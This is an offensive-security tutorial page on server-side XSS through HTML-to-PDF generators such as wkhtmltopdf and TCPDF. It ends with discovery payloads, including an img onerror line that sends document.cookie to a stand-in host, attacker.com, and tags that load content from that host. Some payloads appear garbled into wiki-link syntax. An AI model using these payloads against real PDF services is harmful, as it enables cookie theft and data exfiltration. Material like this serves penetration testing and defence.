 # Server Side XSS (Dynamic PDF)


## Server Side XSS (Dynamic PDF)

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.\
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

Please, notice that the `<script></script>` tags don't work always, so you will need a different method to execute JS (for example, abusing `<img` ).\
Also, note that in a regular exploitation you will be **able to see/download the created pdf**, so you will be able to see everything you **write via JS** (using `document.write()` for example). But, if you **cannot see** the created PDF, you will probably need **extract the information making web request to you** (Blind).

### Popular PDF generation

- **wkhtmltopdf** is known for its ability to convert HTML and CSS into PDF documents, utilizing the WebKit rendering engine. This tool is available as an open-source command line utility, making it accessible for a wide range of applications.
- **TCPDF** offers a robust solution within the PHP ecosystem for PDF generation. It is capable of handling images, graphics, and encryption, showcasing its versatility for creating complex documents.
- For those working in a Node.js environment, **PDFKit** presents a viable option. It enables the generation of PDF documents directly from HTML and CSS, providing a bridge between web content and printable formats.
- Java developers might prefer **iText**, a library that not only facilitates PDF creation but also supports advanced features like digital signatures and form filling. Its comprehensive feature set makes it suitable for generating secure and interactive documents.
- **FPDF** is another PHP library, distinguished by its simplicity and ease of use. It's designed for developers looking for a straightforward approach to PDF generation, without the need for extensive features.

## Payloads

### Discovery

```html
<!-- Basic discovery, Write something-->
![[x|]]


<!--Basic blind discovery, load a resource-->
![[http://attacker.com|]]
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">

<link rel=attachment href="http://attacker.com">

<!-- Using base HTML tag -->
<!--
base-href: http://attacker.com
-->


<!-- Loading external stylesheet -->

<!-- Meta-tag to auto-refresh page -->
<!--
meta-refresh: 0; url=http://attacker.com/
-->

```